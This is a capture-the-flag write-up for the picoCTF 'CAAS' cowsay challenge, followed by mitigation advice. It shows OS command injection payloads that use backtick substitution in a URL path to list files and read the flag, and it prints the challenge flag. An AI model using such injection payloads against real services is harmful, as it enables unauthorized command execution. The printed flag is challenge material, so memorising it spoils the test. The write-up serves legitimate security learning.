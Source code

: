 # 🐮 CAAS — Command as a Service

This challenge is pretty easy, as it will **jump to your mind** when you try the link:

> `https://caas.mars.picoctf.net/cowsay/{message}`

Yes, we are going to **OS-inject this** 😏

---

### 🧪 First Try: Direct Injection

Tried:

```
https://caas.mars.picoctf.net/cowsay/{ls }
```

💥 **Did not work**.

![image](https://github.com/user-attachments/assets/17feea2a-d248-4976-b7fd-8be43d8a2c17)

---

### 💡 Idea: Command Substitution using Backticks

Then I thought of using **command substitution**:

```
https://caas.mars.picoctf.net/cowsay/{`ls`}
```

✅ **It worked!**

![image](https://github.com/user-attachments/assets/ffb009a1-ffcf-4c3e-a736-d9b83aeee1ea)

---

### 🏁 Getting the Flag

Saw a file named `falg.txt` (not `flag.txt`, sneaky 🧐)

So:

```
https://caas.mars.picoctf.net/cowsay/{`cat falg.txt`}
```

📦 **Flag retrieved**:

![image](https://github.com/user-attachments/assets/64cfff43-5e6e-476c-bec1-eca8bdc20d19)

```
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```

---

## 📚 Lessons Learned

* Always try **multiple payload styles**: what doesn’t work with `{}` might work with backticks.
* Be careful with **file name typos** — sometimes it’s not a mistake, it’s a red herring.
* **Command injection** can be that easy when user input is passed directly to a shell command.
* Never trust inputs in a URL path — especially if you're **interpolating user input in system commands**.

---

## 🔎 Vulnerability Assessment

* This is a classic case of **OS Command Injection** via **unsanitized input** in the URL path.
* The backend likely calls something like:

  ```bash
  cowsay {user_input}
  ```

  and wraps it directly without validation.
* Backtick execution (`\`command\`\`) is evaluated by the shell, so wrapping user input directly into command-line calls **allows attackers to execute arbitrary shell commands**.
* Mitigation would require:

  * **Sanitizing or escaping** special shell characters.
  * Using **whitelisting** instead of blacklisting inputs.
  * Avoiding shell altogether by using **language-native functions** (e.g., Python's subprocess with `shell=False`).

---

💻 That’s it — quick pwn, cute cow, solid vuln.

